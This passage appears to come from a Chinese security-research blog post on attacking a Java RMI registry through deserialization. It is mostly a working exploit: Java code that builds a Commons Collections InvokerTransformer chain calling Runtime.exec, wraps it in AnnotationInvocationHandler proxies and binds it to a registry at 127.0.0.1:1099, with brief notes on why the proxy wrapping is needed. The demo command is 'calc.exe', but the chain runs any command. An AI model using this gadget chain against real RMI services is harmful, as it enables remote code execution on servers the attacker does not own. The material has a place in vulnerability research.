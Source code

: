 ```
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        Map map = (Map)constructor.newInstance(innermap,chain);


        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class,map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},map_handler); //创建proxy对象


        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)AnnotationInvocationHandler_Constructor.newInstance(Override.class,proxy_map);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, handler);
        registry.bind("test",r);

    }
}
```

这里因为 bind 的参数是需要是 Remote 类型，不能直接传入一个InvocationHandler，所以这里用代理的方式进行了一个封装，网上看到的大多数是用Remote.class.cast进行一个强制类型转换

当r被反序列化的时候，handler也会被反序列化，自然可以执行后面的链子

![image-20220411174802169](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220411174802169.png)
